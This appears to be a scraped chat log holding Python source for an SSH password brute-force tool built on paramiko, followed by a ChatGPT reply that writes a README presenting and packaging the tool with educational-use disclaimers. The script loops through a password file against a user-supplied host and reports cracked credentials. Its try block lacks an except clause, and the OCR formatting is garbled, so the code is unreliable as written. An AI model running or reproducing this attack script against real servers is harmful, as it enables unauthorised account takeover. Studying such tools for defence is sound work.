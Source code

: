 # Collect data from user:

user = input('[+] Enter the username: ')
password = input('[+] Enter the passwords file: ')
host = input('[+] Enter the target website in format www.example.com: ')

# function to connect to the SSH server:
def ssh_connect(password, code = 0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(host, port=22, username=user, password=password)
    except paramiko.AuthenticationException:
        code = 1
    except socket.error as e:
        code = 2
    ssh.close()
    return code

# Open the file with the passwords:
try:
    if not os.path.exists(password):
        print('[!!] File Not Found')
        sys.exit(1)

with open(password, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        try:
            response = ssh_connect(password)
            if response == 0:
                print(termcolor.colored(('[+] Found password: ' + password + ', for account: ' + user), 'green'))
                break
            elif response == 1:
                print(termcolor.colored('[-] Incorrect login: ' + password), 'red')
            elif response == 2:
                print(termcolor.colored('[!!] Can\'t connect'), 'yellow')
                sys.exit(1)
        except Exception as e:
            print(e)
            continue

ChatGPT
Certainly, Professor Del Valle. Below is a README template for your code repository, written in Markdown format. You can adjust the content as necessary to fit your repository's specifics.

markdown
Copy code
# SSH Brute Force Tool

This tool attempts to brute-force SSH passwords for a given username and target website using a list of passwords.

## Description

This Python script leverages the Paramiko library to try and connect to an SSH server with a specified username and a list of passwords. It is designed to test the security of SSH servers by attempting to authenticate using common or guessed passwords. Please use this tool responsibly and only on systems where you have permission to do so.

## Features

- Uses Paramiko for SSH connections.
- Accepts a list of passwords from a file.
- Reports successful and unsuccessful login attempts.
- Handles connection errors gracefully.

## Prerequisites

Before you can run this tool, you need to have Python installed on your system along with the following Python libraries:
- `paramiko` for SSH connections
- `termcolor` for colored terminal output

## Installation

First, ensure you have Python installed on your system. Then, install the required libraries using pip:

```bash
pip install paramiko termcolor
Usage
To use this tool, follow these steps:

Clone this repository or download the script to your local machine.
Prepare a text file containing potential passwords, one per line.
Run the script from your terminal:
bash
Copy code
python ssh_brute_force.py
When prompted, enter the username, path to your passwords file, and the target website (in the format www.example.com).
Please note: This tool is for educational purposes only. Do not attempt to test systems without explicit permission from the owners.

Contributing
Contributions to this project are welcome. Please fork the repository and submit a pull request with your improvements.

License
This project is licensed under the MIT License - see the LICENSE.md file for details.

Disclaimer
This tool is provided for educational use only. Any misuse of this software will not be the responsibility of the author or any contributors.
